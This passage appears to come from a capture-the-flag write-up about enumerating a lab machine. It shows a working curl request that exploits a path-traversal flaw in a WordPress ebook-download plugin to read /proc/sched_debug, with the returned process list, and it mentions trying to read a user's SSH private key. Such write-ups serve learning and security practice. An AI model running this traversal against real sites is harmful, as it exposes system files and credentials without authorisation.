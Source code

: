 This file is always useful for learning about the users on the target machine. In this case, we have a user called `user` that has a `/bin/bash`{: .filepath} shell assigned.

If we remember the enumeration phase, the `SSH` service was enabled, but if we try to read the `/home/user/.ssh/id_rsa`{: .filepath} file, we will notice that it is not being displayed.

We will have to enumerate further in order to gain a shell on the target machine. We will start by enumerating the processes running on the target machine. To do that, we can list the `/proc/sched_debug`{: .filepath} file. This file contains all the names of processes running on the target machine and their associated `PIDs (Program IDs)`. We will retrieve this file:

```bash
curl http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../proc/sched_debug
```

```text
runnable tasks:
 S           task   PID         tree-key  switches  prio     wait-time             sum-exec        sum-sleep
-----------------------------------------------------------------------------------------------------------
 Ssystemd-resolve   681       396.619020       919   120         0.000000       535.509599         0.000000 0 0 /autogroup-30
 Ssystemd-timesyn   683       345.419420       318   120         0.000000       364.071150         0.000000 0 0 /autogroup-31
 S     sd-resolve   751       351.353787       853   120         0.000000       102.344524         0.000000 0 0 /autogroup-31
 S   HangDetector   752      1953.279714      2281   120         0.000000        85.176872         0.000000 0 0 /autogroup-36
 Saccounts-daemon   754        26.168089        72   120         0.000000        14.543910         0.000000 0 0 /autogroup-38
 S          gmain   761        52.585943      2043   120         0.000000       121.948100         0.000000 0 0 /autogroup-38
 S          gdbus   894        26.808460        35   120         0.000000         2.709312         0.000000 0 0 /autogroup-38
 S       rsyslogd   776        36.284934        33   120         0.000000         6.967121         0.000000 0 0 /autogroup-43
 S      in:imklog   805         9.185210         4   120         0.000000         3.432806         0.000000 0 0 /autogroup-43
 S  rs:main Q:Reg   806        47.756009      1119   120         0.000000        56.144683         0.000000 0 0 /autogroup-43
 S           cron   831         0.691187        31   120         0.000000         2.891720         0.000000 0 0 /autogroup-55
 S           cron   832         0.666570        26   120         0.000000         3.109721         0.000000 0 0 /autogroup-55
 S             sh   844     14166.949705      4303   120         0.000000       817.101098         0.000000 0 0 /autogroup-57
 S             sh   847         1.586230         3   120         0.000000         1.204028         0.000000 0 0 /autogroup-64
 S            atd   856         1.340863         5   120         0.000000         2.882284         0.000000 0 0 /autogroup-63
 S       (sd-pam)   961         0.464843         1   120         0.000000         0.251041         0.000000 0 0 /autogroup-76
 S         screen   966         0.466555        11   120         0.000000         1.324943         0.000000 0 0 /autogroup-78
 S           bash   972        41.421383       130   120         0.000000        28.242470         0.000000 0 0 /autogroup-79
 S     ib_io_rd-1  1019      1754.497361      4265   120         0.000000       114.641141         0.000000 0 0 /autogroup-80
 S     ib_io_wr-2  1024      1754.530925      4356   120         0.000000       116.785899         0.000000 0 0 /autogroup-80
 S     ib_io_wr-4  1026      1754.550461      4326   120         0.000000       119.141381         0.000000 0 0 /autogroup-80
 S ib_pg_flush_co  1027      1754.487262      2312   120         0.000000       141.575541         0.000000 0 0 /autogroup-80
```